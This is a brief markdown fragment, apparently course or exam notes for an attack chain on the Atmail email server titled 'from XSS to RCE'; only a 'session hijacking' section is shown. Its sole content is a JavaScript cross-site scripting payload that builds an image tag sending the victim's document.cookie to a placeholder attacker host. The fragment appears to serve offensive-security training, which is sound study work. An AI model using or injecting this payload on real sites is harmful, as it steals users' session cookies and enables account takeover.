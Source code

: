 # WEB-300: Atmail eMail Server Appliance: from XSS to RCE


## session hijacking
```javascript
function addImage(){
  var img = document.createElement('img');
  img.src = "http://attacker-ip:port/"+document.cookie;
  document.body.appendChild(img);
}

addImage();
```
